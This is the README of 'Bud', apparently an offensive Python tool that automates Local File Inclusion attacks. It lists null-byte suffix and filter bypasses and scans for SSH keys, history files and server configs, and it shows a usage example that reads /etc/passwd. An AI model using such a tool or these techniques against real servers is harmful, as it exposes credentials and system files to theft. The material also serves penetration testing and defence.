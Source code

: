 # Bud :D
This script automatically extracts user / system files trough Local File Inclusion.

# Current features:
* inject anywhere (parameter + path) (use the * to set the injection point)
* checks absolute path and relative path method
* supports suffix bypass by using a null-byte
* supports filter bypass by using a null-byte + fake extension
* scans for readable configuration files (Apache, MySQL, Nginx, SSHd and DHCPclient)
* scans for readable user files (.ssh files, user profile, bashrc, history file)
* scans for possible log injection (Apache + Nginx)
* gathers some basic system info
* supports all 7392 genders and Python 2.x & 3.x

# How to install
* git clone https://github.com/stefan2200/Bud.git bud
* cd bud
* pip install -r requirements.txt
* python bud.py -hh

# Basic usage
```
*python bud.py -u "http://vulie.local/image.php?mime=jpg&src=*;" -e jpg -i*
-u: the url to start with, needs mime set to extension to actually call the vuln function
also both mime and extension must be a valid image format
-e jpg to append a null-byte followed by the fake extension
back-end sees: /etc/passwd\0.jpg
server sees: /etc/passwd
```
*Output of this command is available in results.txt*
```
Usage: bud.py [options]

Options:
  -h, --help            show this help message and exit
  -u URL                The URL to start with including an astrix (*) for the
                        inject point
  -n, --null-byte       Use a null-byte to bypass suffix
  -e ERROR_TEXT, --error=ERROR_TEXT
                        Text to look for when a file is not found, default:
                        auto detect
  -p, --print           Text to look for when a file is not found, default:
                        auto detect
  -i, --ignore          Do not print files that are not found
  -f FAKE_EXTENSION, --fake-ext=FAKE_EXTENSION
                        Use null-byte followed by this fake extension (enables
                        -n)
```